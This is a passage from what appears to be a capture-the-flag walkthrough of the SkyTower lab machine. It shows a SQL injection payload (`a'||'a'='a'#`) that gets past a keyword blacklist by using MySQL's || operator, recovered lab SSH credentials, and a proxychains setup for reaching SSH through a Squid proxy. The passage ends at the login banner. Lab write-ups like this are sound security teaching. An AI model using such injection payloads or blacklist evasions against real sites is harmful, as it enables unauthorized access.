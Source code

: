 As there was seemingly no means of working around the character stripping, I tried replacing the OR operator with MySQL's alternative operator (`||`) and found that it wasn't in the blacklist, which allowed me to gain access by submitting `a'||'a'='a'#` as the e-mail.

![Auth Bypass](/assets/images/skytower-ctf-walkthrough/account.png)

## Getting a Shell
Using the SSH credentials found by bypassing the website's authentication (`john:hereisjohn`), I configured proxychains to use the Squid server by adding `http 10.2.0.104 3128` to the end of `/etc/proxychains.conf` and then accessed SSH through proxychains:

```shell_session
root@kali:~# proxychains ssh john@10.2.0.104
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-10.2.0.104:3128-<><>-10.2.0.104:22-<><>-OK
john@10.2.0.104's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014

Funds have been withdrawn
```